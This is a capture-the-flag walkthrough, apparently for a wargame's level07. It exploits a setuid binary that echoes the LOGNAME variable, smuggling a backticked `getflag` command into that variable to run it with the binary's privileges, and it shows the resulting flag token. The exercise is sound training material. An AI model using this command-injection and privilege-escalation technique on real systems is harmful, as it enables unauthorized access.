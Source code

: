 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

We have an executable. Since we can execute the level07 let's try it.

```bash 
$ ./level07 
level07
```

Okay so the executable displays something, probably with echo or ls. 

```bash 
$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

I thought about creating a custom 'echo' and adding it to the PATH like level03 but it wasn't that. 
Instead let's look if the echo is done in any particular way. 


```bash 
$ strings level07 
[...]
LOGNAME
/bin/echo %s 
[...]
```

Okay so we see that the echo depends on an env variable. 

```bash 
$ env | grep LOGNAME 
LOGNAME=level07
```

Same principle as before we are going to inject getflag as a variable. 

```bash 
$ export LOGNAME=\`getflag\`
```

Check if it worked correctly 

```bash 
$ env | grep LOGNAME 
LOGNAME=`getflag`
```

And let's execute the script

```bash 
$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
